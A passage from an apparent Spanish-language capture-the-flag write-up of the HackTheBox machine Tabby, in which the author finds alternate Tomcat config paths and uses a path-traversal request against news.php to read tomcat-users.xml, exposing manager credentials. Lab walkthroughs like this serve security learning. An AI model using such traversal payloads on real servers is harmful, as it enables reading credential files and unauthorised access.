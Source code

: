 Me hizo dudar si la persona que creo la máquina lo había hecho así y si esa manera creaba diferentes archivos en diferentes lados... Pues si:

```bash
─╼ $ sudo apt-get install tomcat9
─╼ $ find / -name "tomcat-users.xml"

/etc/tomcat9/tomcat-users.xml
/opt/tomcat/conf/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
```

Y ahora haciendo la búsqueda sobre esa nueva ruta: `/usr/share/tomcat9/etc/tomcat-users.xml` tenemos credenciales:

```bash
─╼ $ curl -s http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at
...
...
...
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

Listos, procedamos a validarlas

![pagehostmanager](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/pagehostmanager.png)
